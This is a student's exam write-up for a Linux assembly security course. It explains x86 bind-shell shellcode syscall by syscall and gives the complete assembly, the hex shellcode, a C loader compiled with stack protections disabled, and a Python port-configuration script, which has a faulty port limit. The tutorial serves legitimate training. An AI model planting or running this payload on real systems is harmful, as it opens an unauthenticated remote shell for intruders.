









# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 1
For the first assignment I need to solve the following tasks:
Create a Shell_Bind_TCP shellcode
* Binds to a port
* Execs Shell on incoming connection
* Port number should be easily configurable

___

</br>

For serving a bind shell we need the following functions:
* socketcall - socket
* socketcall - bind
* socketcall - listen
* socketcall - accept
* dup2
* execve

## socketcall - socket
The first step is to create the socket. When searching for a function for creating a socket we can find socketcall (0x66) in the following function [summary](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit).
Following the manual for this function it looks like this:
``` c
int syscall(SYS_socketcall, int call, unsigned long *args);
```
In ebx there has to be the socketcall, in ecx the call and in edx the args. From the manual we see also many different calls we can and have to execute. To create the socket we need the following call function: 
``` c
int socket(int domain, int type, int protocol);
```
There we have 3 arguments. The domain argument specifies the protocol family which will be used for the communication. For using IPv4 the argument should be set to AF_INET which is the value 2. The type argument specifies the communication semantics which should be set to SOCK_STREAM which has the value 1. The protocol parameter specifies which protocol should be used what can be set to 0.

To build this in assembly we first need to specify which call function in this case socket needs to be executed. The value for the socket call is 1 so we have to load ebx with 1. Then we need to specify the arguments for the socket function. These we push in reverse order to the stack. That means first we have to push protocol, type and then domain. Then it's possible to save a pointer to these arguments in edx which is the args parameter from the function. 
``` assembly
xor eax, eax
xor ebx, ebx
mov bl, 0x01

push eax    
push 0x01
push 0x02
mov ecx, esp
mov al, 0x66
int 0x80    

mov edi , eax
```
The last instuction saves the created socket to edi so the reference to this socket can be used later.

We can check all the values of the registers before execution with gdb:



## socketcall - bind
After creating the socket it’s required to bind the shell to an address. For this we can use the bind method which has the value 2 so we can increase ebx by 1 to have ebx loaded with 2.
``` assembly
xor eax, eax
inc bl
```
The bind function is defined with the following parameters:
``` c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
The first argument is the socket we created before. The second argument is the important one where we can set the port and the address for our bind shell as seen in the following:
``` c
struct sockaddr_in {
               sa_family_t    sin_family; /* address family: AF_INET */
               in_port_t      sin_port;   /* port in network byte order */
               struct in_addr sin_addr;   /* internet address */
           }; 
```
So the first field sin_family is the address family which in this case can be set to AF_INET which has the value 2. In case of a bind shell it’s required to allow all inbound connections, so we have to set the sin_addr to INADDR_ANY which is 0. The sin_port field we can specify to e.g. 1337. There we have to read the comment which says it has to be specified in network byte order. For a conversion to network byte order we can use the following python snippet which will output 0x3905 for port 1337:
``` python
import socket
hex(socket.htons(1337)) 
```
The 3rd argument of the bind function is the length of the sockaddr_in structure which is 16 bytes.
So in assembly let's first push the struct to the stack in reverse order like sin_addr, sin_port and sin_family and save the pointer to this struct in ecx. 
``` assembly
push eax
push word 0x3905
push word 0x02
mov ecx, esp
```
The bind function says the last argument is addrlen which is 16 bytes so we have to push this first to the stsack. The 2nd argument was the pointer to the struct which was saved in ecx so this has to be pushed. The first argument is the before created socket which was saved in edi. The pointer to these arguments has to be saved now in ecx which is the argv from the socketcall function.
``` assembly
push 0x10
push ecx 
push edi 
mov ecx, esp

mov al, 0x66
int 0x80;
```

Let's also check all the registers in gdb before execution:



## socketcall - listen
The next call we need is the actual listen for connections. This call is a little bit more simple and it only requires two arguments. The call is defined as the following:
``` c
int listen(int sockfd, int backlog);
```
The sockfd argument is again the reference to the created socket and the backlog specifies the maximum number for pending connections in the queue which we can set to 0.

Writing this in assembly there is also no big surprise. The value for listen is 4 so first ebx will be increased two times to 4. Then the last argument backlog is pushed and then the used sockfd pointer to these arguments are again saved in ecx which is the argv for the socketcall. 
``` assembly
xor eax, eax

inc bl 
inc bl                  

push eax
push edi

mov ecx, esp

mov al, 0x66
int 0x80
```

The registers look then like this:



## socketcall - accept
Then we need the accept call which has 3 arguments:
``` c
int accept(int sockfd, struct sockaddr *restrict addr, socklen_t *restrict addrlen);
```
The 2nd and 3rd argument is similar to the ones in the bind call but here it’s the address of the peer and we don’t need them so we set them to 0. 
So first let's start by setting the ebx register to 5 which stands for the accept call. Then we push the arguments again in reverse order that means two times zero and then the used socketfd. Again the pointer to these arguments in ecx. After the execution a new socket will be in eax which has to be saved for the next functions so we overwrite our old socket with the new one.
``` assembly
xor eax, eax
inc bl

push eax
push eax
push edi

mov ecx, esp

mov al, 0x66
int 0x80
mov edi, eax   
```
Again the gdb output:



## dup2
To ensure that stdin, stdout and stderr are redirected correctly we have to duplicate the file descriptors. We can also find a function for this in the manual:
``` c
int dup2(int oldfd, int newfd);
```
As parameters the dup2 function needs the oldfd and a newfd. Because we need stdin (=0), stdout (=1) and stderr (=2) we have to call this function 3 times so this would be the resulting execution:
``` c
dup2(oldsockfd, 0);   //stdin
dup2(oldsockfd, 1);   //stdout
dup2(oldsockfd, 2);   //stderr
```
We can direclty see that only the newfd changes so we could make this more simple in a loop like visualized in the following c code which is in reverse order from 2 to 0 which is more simple later in assembly because we can work with the register status flags.
``` c
for(i=2; i>=0; i--){
  dup2(oldsockfd, i);
}
```
Now let's build this in assembly. First we need to put the newfd in ecx. We start with putting 2 in ecx which is also our counter for the loop. Then we get in the actual loop. There we store the saved sockfd from the accept function in ebx which is the first parameter (oldfd) of the function. Then we have to load 3f in eax which stands for the dup2 function which then will be executed as syscall. After execution we decrease the ecx register by 1 and jump back until we have the sign or negative flag in the register then we'll not go back in the loop. In the end this should be executed 3 times for 2,1 and 0 in ecx.
``` assembly
xor ecx, ecx 

mov cl, 2  

dupLoop:
mov ebx, edi
xor eax, eax
mov al, 0x3f
int 0x80 

dec cx    
jns dupLoop
```
Here the gdb output right before the execution of the syscall:



## execve
After that we need to to create the actual shell. This can be achieved by  calling /bin/sh with the execve call which is defined like this:
``` c
int execve(const char *pathname, char *const argv[], *const envp[]);
``` 
For this we first have to push the /bin/sh to the stack. We have to do this in reverse order. We could devide it in //bi and n/sh to have it defined as a dword.
``` assembly
push eax
push 0x68732f6e
push 0x69622f2f
```
After that we need the reference to the top of the stack where the string (//bin/sh) is located and move this pointer to ebx. To use the execve call we have to set the eax register to 0xb.
``` assembly
mov ebx, esp
mov al, 0xb
int 0x80
```
So before the syscall the registers are filled like this:



## Executing the bind shell
Then we can use the compile.sh script which I have slightly modified with the printing of the shellcode. The output will look like this:


We can directly run the compiled file and and connect to the bind shell with nc 127.0.0.1 1337 which works perfectly:



Also we can put the shellcode in a c program and execute it from there:
``` c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\xb3\x01\x50\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x31\xc0\xfe\xc3\x50\x66\x68\x05\x39\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xb0\x66\xcd\x80\x31\xc0\xfe\xc3\xfe\xc3\x50\x57\x89\xe1\xb0\x66\xcd\x80\x31\xc0\xfe\xc3\x50\x50\x57\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89\xfb\x31\xc0\xb0\x3f\xcd\x80\x66\x49\x79\xf4\x31\xc0\x89\xc1\x89\xc2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

void main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```
Then we have to compile the bindShell.c like this with the security protectors deactivated:
``` bash
gcc -fno-stack-protector -z execstack -no-pie bindShell.c -o bindShell
```
Then it's runnable and working the same way as the previous executable.

## Easily configurable Port and IP
For configuring the port I wrote a simple python script what could take the port as argument or letting the port be changed in the python code itself and transforms it to the correct notation and add this to the shellcode.
For this I divided the generated shellcode in the string before and after the port. Then it reads the port and transforms it to the right notation. In the end all 3 strings are concatenateed together and printed to the console. 
Also I added a simple check if the resulted shellcode contains null bytes which normally should be avoided.

``` python
#!/usr/bin/python3
import sys;
import socket;

shellcodeBeforePort = "\\x31\\xc0\\x31\\xdb\\xb3\\x01\\x50\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc7\\x31\\xc0\\xfe\\xc3\\x50\\x66\\x68"
shellcodeAfterPort = "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x31\\xc0\\xfe\\xc3\\xfe\\xc3\\x50\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x31\\xc0\\xfe\\xc3\\x50\\x50\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc7\\x31\\xc9\\xb1\\x02\\x89\\xfb\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x66\\x49\\x79\\xf4\\x31\\xc0\\x89\\xc1\\x89\\xc2\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

if (len(sys.argv) == 1):
  port = 1337
else:
  port = int(sys.argv[1])
  if port < 1 or port > 6555:
    print("Specify a real port")
    exit()

portNetwork = hex(socket.htons(int(port)))
portShell = "\\x"  + portNetwork[4:6] + "\\x" + portNetwork[2:4]


shellcode = shellcodeBeforePort + portShell + shellcodeAfterPort
if "00" in shellcode:
  print("There was a null byte found in the shellcode. Please change the port or the shellcode!")
print(shellcode)
```

Testing this with the input 4444 as port we get a different shellcode and can past it into the c programm, compile it and execute it the same way as before. As you can see in the pictures it is working.





## Whole Assembly code
``` assembly
global _start
_start:
  ;SOCKET
  ;Creating a socket socketcall with syscall
  ;int syscall(SYS_socketcall, int call, unsigned long *args);
  ;int socket(int domain, int type, int protocol);
  xor eax, eax
  xor ebx, ebx
  mov bl, 0x01            ;ebx = 1 --> call = socket

  push eax                ;push protocol = 0 for socket function
  push 0x01               ;push type = 1 --> SOCK_STREAM for socket function
  push 0x02               ;push domain = 2 --> AF_INET for socket function
  mov ecx, esp            ;save pointer to arguments in ecx
  mov al, 0x66            ;eax = 0x66 --> socketcall
  int 0x80                ;--> syscall = 0x80

  mov edi , eax           ;save socket for later usage in edi


  ;BIND
  ;int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
  xor eax, eax
  inc bl                  ;ebx = 2 --> call = bind

                          ;struct sockaddr_in {...}
  push eax                ;push sin_addr --> 0
  push word 0x3905        ;push sin_port in network byte order --> 0x3905 (=1337) 
  push word 0x02          ;push sin_family --> 2 --> AF_INET
  
  mov ecx, esp            ;save pointer to struct sockaddr_in in ecx
  push 0x10               ;push addrlen 0x10 (=16) for bind function
  push ecx                ;push pointer to struct sockaddr_in for bind function
  push edi                ;push sockfd for bind function
  mov ecx, esp            ;save pointer to arguments in ecx
  
  mov al, 0x66
  int 0x80;


  ;LISTEN
  ;int listen(int sockfd, int backlog);
  xor eax, eax

  inc bl 
  inc bl                  ;ebx = 4 --> call = listen

  push eax                ;push backlog = 0 fo listen function
  push edi                ;push sockfd for listen function

  mov ecx, esp            ;save pointer to arguments in ecx

  mov al, 0x66
  int 0x80


  ;ACCEPT
  ;int accept(int sockfd, struct sockaddr *restrict addr, socklen_t *restrict addrlen);
  xor eax, eax
  inc bl                  ;ebx = 5 --> call = accept

  push eax                ;push addrlen=0 for acceptlen
  push eax                ;push addr=0 for accept function
  push edi                ;push sockfd for accept function

  mov ecx, esp            ;save pointer to arguments in ecx

  mov al, 0x66
  int 0x80
  mov edi, eax            ;overwrite old socket in edi


  ;DUP2 
  ;int dup2(int oldfd, int newfd);
  xor ecx, ecx 

  mov cl, 2               ;write 2 in ecx for newfd parameter of dup2 

dupLoop:
  mov ebx, edi            ;write old socket in ebx for oldfd parameter of dup2
  xor eax, eax            
  mov al, 0x3f            ;eax = 0x3f --> dup2
  int 0x80 

  dec cx                  ;decrease ecx by 1 --> newfd    
  jns dupLoop             ;loop until sign / negative flag(so 2,1,0)


  ;EXECVE
  ;int execve(const char *pathname, char *const argv[], char *const envp[]);
  xor eax, eax
  mov ecx, eax            ;arg = ecx = 0
  mov edx, eax            ;envp = edx = 0
  push eax
                          ;//bin/sh
                          ;2f 2f 62 69 - 6e 2f 73 68
  push 0x68732f6e         
  push 0x69622f2f
  mov ebx, esp            ;pathname = ebx --> pointer to the stack to //bin/sh
  mov al, 0xb             ;eax = 0xb --> execve
  int 0x80
```
